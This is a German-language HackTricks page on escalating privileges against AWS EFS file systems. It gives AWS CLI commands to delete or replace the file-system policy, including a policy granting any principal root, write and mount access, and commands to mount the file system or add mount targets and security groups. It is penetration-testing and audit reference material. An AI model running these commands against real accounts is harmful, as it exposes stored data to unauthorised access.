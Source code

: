 # AWS - EFS Privesc

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}

## EFS

Mehr **Info über EFS** in:

{% content-ref url="../aws-services/aws-efs-enum.md" %}
[aws-efs-enum.md](../aws-services/aws-efs-enum.md)
{% endcontent-ref %}

Denke daran, dass du, um ein EFS zu mounten, in einem Subnetz sein musst, in dem das EFS exponiert ist und Zugang dazu haben musst (Sicherheitsgruppen). Wenn dies der Fall ist, kannst du es standardmäßig immer mounten, jedoch, wenn es durch IAM-Richtlinien geschützt ist, benötigst du die hier genannten zusätzlichen Berechtigungen, um darauf zuzugreifen.

### `elasticfilesystem:DeleteFileSystemPolicy`|`elasticfilesystem:PutFileSystemPolicy`

Mit einer dieser Berechtigungen kann ein Angreifer **die Dateisystemrichtlinie ändern**, um **dir Zugang** zu gewähren oder sie einfach **zu löschen**, sodass der **Standardzugang** gewährt wird.

Um die Richtlinie zu löschen:
```bash
aws efs delete-file-system-policy \
--file-system-id <value>
```
Um es zu ändern:
```json
aws efs put-file-system-policy --file-system-id <fs-id> --policy file:///tmp/policy.json

// Give everyone trying to mount it read, write and root access
// policy.json:
{
"Version": "2012-10-17",
"Id": "efs-policy-wizard-059944c6-35e7-4ba0-8e40-6f05302d5763",
"Statement": [
{
"Sid": "efs-statement-2161b2bd-7c59-49d7-9fee-6ea8903e6603",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"elasticfilesystem:ClientRootAccess",
"elasticfilesystem:ClientWrite",
"elasticfilesystem:ClientMount"
],
"Condition": {
"Bool": {
"elasticfilesystem:AccessedViaMountTarget": "true"
}
}
}
]
}
```
### `elasticfilesystem:ClientMount|(elasticfilesystem:ClientRootAccess)|(elasticfilesystem:ClientWrite)`

Mit dieser Berechtigung kann ein Angreifer **das EFS einbinden**. Wenn die Schreibberechtigung standardmäßig nicht allen gewährt wird, die das EFS einbinden können, hat er nur **Lesezugriff**.
```bash
sudo mkdir /efs
sudo mount -t efs -o tls,iam  <file-system-id/EFS DNS name>:/ /efs/
```
Die zusätzlichen Berechtigungen `elasticfilesystem:ClientRootAccess` und `elasticfilesystem:ClientWrite` können verwendet werden, um **zu schreiben** innerhalb des Dateisystems, nachdem es gemountet wurde, und um auf dieses Dateisystem **als root** zuzugreifen.

**Potenzielle Auswirkungen:** Indirekte Privilegieneskalation durch das Auffinden sensibler Informationen im Dateisystem.

### `elasticfilesystem:CreateMountTarget`

Wenn ein Angreifer sich in einem **Subnetz** befindet, in dem **kein Mount-Ziel** des EFS existiert, könnte er einfach **eins in seinem Subnetz erstellen** mit diesem Privileg:
```bash
# You need to indicate security groups that will grant the user access to port 2049
aws efs create-mount-target --file-system-id <fs-id> \
--subnet-id <value> \
--security-groups <value>
```
**Potenzielle Auswirkungen:** Indirekte Privilegieneskalation durch Auffinden sensibler Informationen im Dateisystem.

### `elasticfilesystem:ModifyMountTargetSecurityGroups`

In einem Szenario, in dem ein Angreifer feststellt, dass das EFS einen Mount-Ziel in seinem Subnetz hat, aber **keine Sicherheitsgruppe den Verkehr erlaubt**, könnte er einfach **das ändern, indem er die ausgewählten Sicherheitsgruppen modifiziert**:
```bash
aws efs modify-mount-target-security-groups \
--mount-target-id <value> \
--security-groups <value>
```
**Potenzielle Auswirkungen:** Indirekte Privilegieneskalation durch das Auffinden sensibler Informationen im Dateisystem.

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Teile Hacking-Tricks, indem du PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}
